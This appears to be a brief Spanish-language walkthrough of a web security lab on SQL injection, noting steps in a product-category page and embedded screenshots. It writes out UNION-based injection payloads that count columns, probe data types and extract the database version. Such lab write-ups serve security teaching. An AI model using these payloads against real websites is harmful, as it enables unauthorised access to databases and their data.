 ## Objetivo:

![[Pasted image 20240622164344.png]]

## Solución

Entramos a una categoria de producto

![[Pasted image 20240622164652.png]]

Y de nuevo lo mismo:
1. Identificar la cantidad de columnas.
	```
	' UNION SELECT NULL, NULL-- -
    ```

2. Ver tipo de dato de cada columna.
	```
	' UNION SELECT 'a', NULL-- -
	```

3. Una vez identificado, crear el payload correspondiente a la explotación que queremos realizar.
```
' UNION SELECT @@version, NULL -- -
```

![[Pasted image 20240622165438.png]]

